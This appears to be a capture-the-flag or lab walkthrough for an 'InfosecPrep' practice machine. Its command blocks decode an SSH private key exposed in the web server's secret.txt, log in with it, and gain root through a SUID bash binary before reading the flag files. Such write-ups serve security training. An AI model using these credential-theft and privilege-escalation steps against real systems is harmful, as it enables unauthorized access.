


# InfosecPrep

**IP Address:** 192.168.76.89

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22    | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80    | http     | Apache httpd 2.4.41 ((Ubuntu)) |


## Exploitation
### Exploit Details (Found Credentials)
* **Name** - Found Credentials
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The robots.txt file contains a listing for secret.txt. This file contains a certificate which first needs to be base64 decoded then saved. Once it is saved if we remove the first and last lines and base64 decode it again we can then see the user that it is intended for. We can then change the permissions and login with the certificate. 

Commands
```bash
curl http://$ip/secret.txt | base64 -d > id_rsa
cat id_rsa | sed '1d' | sed '$ d' | base64 -d
chmod 600 id_rsa
ssh -i id_rsa oscp@$ip
whoami
cat local.txt
```




## Privilege Escalation
### Exploit Details (SUID (bash))
* **Name** - SUID (bash)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * https://gtfobins.github.io/gtfobins/bash/

Commands
```bash
bash -p
whoami
cat /root/proof.txt
```

